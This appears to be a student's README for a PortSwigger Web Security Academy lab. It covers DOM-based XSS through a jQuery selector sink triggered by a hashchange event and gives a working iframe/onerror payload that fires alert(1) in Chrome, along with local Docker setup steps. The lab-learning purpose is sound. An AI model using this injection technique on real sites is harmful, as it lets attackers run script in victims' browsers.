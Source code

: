 # DOM XSS in jQuery selector sink using a hashchange event

## SYNOPSIS
-  Site has 9 li elements 
-  You can jump to different li elements by adding an anchor link at the end of the url ```htttp://localhost:8085/#list1```
-   The jquery selector will wait for a hashchange event to occur which enables the jump to the corresponding list

## PAYLOAD
- ```<iframe src="https://ac731fc31e7e5a3fc02905c6001900c5.web-security-academy.net#" onload="this.src+='<img src=1 onerror=alert(1)>'">``` via server
- I STILL NEED SOME CLARIFICATION ON HOW THIS WORKS

## How to:
- ```chmod 700 build_docker```
- Run build_docker
- Use the payload above
- You should see an alert window

### NOTE
- Tested on both Safari and Chrome
- Only works on CHROME

#### Reference
DOM XSS in jQuery selector sink using a hashchange event \
https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-selector-hash-change-event
